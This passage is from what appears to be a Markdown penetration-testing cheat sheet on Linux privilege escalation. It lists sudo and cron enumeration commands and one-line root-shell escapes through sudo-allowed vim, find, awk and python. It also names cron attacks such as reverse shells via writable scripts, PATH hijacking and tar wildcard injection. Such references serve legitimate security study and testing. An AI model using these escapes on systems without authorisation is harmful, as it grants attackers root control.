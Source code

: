 ### Sudo Exploitation

#### Sudo Enumeration

| Command | Description |
|---------|-------------|
| `sudo -l` | List sudo privileges |
| `sudo -ll` | Long format sudo list |
| `cat /etc/sudoers` | View sudoers file |
| `grep -r "NOPASSWD" /etc/sudoers*` | Find NOPASSWD entries |

#### Common Sudo Exploits

| Sudo Entry | Exploitation | Example |
|------------|-------------|---------|
| `(ALL) NOPASSWD: /bin/vim` | Vim shell escape | `sudo vim -c ':!/bin/bash'` |
| `(ALL) NOPASSWD: /usr/bin/find` | Find command execution | `sudo find /etc -exec /bin/bash \;` |
| `(ALL) NOPASSWD: /usr/bin/awk` | AWK command execution | `sudo awk 'BEGIN {system("/bin/bash")}'` |
| `(ALL) NOPASSWD: /usr/bin/python*` | Python execution | `sudo python -c "import os;os.system('/bin/bash')"` |

### Cron Job Exploitation

#### Cron Enumeration

| Command | Description |
|---------|-------------|
| `cat /etc/crontab` | System crontab |
| `ls -la /etc/cron.*` | Cron directories |
| `crontab -l` | User crontab |
| `grep -r "* * * * *" /var/spool/cron/` | All user crontabs |
| `pspy64` | Monitor running processes |

#### Cron Exploitation Techniques

| Technique | Description | Example |
|-----------|-------------|---------|
| `Writable script` | Modify executed script | Edit script to spawn reverse shell |
| `PATH hijacking` | Create malicious binary in PATH | Create fake `tar` in `/tmp` |
| `Wildcard injection` | Exploit wildcard usage | `tar cf /dev/null *` exploitation |

### Kernel Exploits
